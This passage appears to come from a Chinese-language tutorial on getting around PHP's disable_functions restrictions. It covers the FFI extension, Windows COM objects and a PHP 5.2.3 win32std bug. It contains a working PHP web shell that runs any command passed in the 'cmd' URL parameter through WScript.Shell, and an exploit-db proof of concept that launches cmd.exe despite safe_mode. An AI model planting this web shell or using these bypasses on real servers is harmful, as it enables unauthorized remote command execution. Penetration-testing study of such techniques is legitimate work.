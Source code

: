 > https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/8

- Linux 操作系统
- PHP >= 7.4
- 开启了 FFI 扩展且 ffi.enable=true

PHP7.4 的一个新特性 FFI（Foreign Function Interface），即外部函数接口，可以让我们在 PHP 中调用 C 代码

## 12. Windows 系统组件 COM

 COM（Component Object Model）组件对象模型，是一种跨应用和语言共享二进制代码的方法。COM 可以作为 DLL 被本机程序载入也可以通过 DCOM 被远程进程调用

`C:WindowsSystem32` 下的 wshom.ocx 能够提供 WshShell 对象和 WshNetwork 对象接口的访问，也就是提供对本地 Windows shell 和计算机所连接的网络上共享资源的访问

php.ini 中开启 `com.allow_dcom`

```
com.allow_dcom = true
```

因为是在 Windows，如果在拓展文件夹 php/ext/ 中存在 php_com_dotnet.dll

到 php.ini 中开启拓展

```
extension=php_com_dotnet.dll
```

```php
<?php
$command = $_GET['cmd'];
$wsh = new COM('WScript.shell') or die("Create Wscript.Shell Failed!");
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```

## 13. PHP 5.2.3 win32std extension safe_mode 

exploit-db 上的 exp

```php
<?php
//PHP 5.2.3 win32std extension safe_mode and disable_functions protections bypass

//author: shinnai
//mail: shinnai[at]autistici[dot]org
//site: http://shinnai.altervista.org

//Tested on xp Pro sp2 full patched, worked both from the cli and on apache

//Thanks to rgod for all his precious advises :)

//I set php.ini in this way:
//safe_mode = On
//disable_functions = system
//if you launch the exploit from the cli, cmd.exe will be wxecuted
//if you browse it through apache, you'll see a new cmd.exe process activated in taskmanager

if (!extension_loaded("win32std")) die("win32std extension required!");
system("cmd.exe"); //just to be sure that protections work well
win_shell_execute("..\..\..\..\windows\system32\cmd.exe");
?>
```

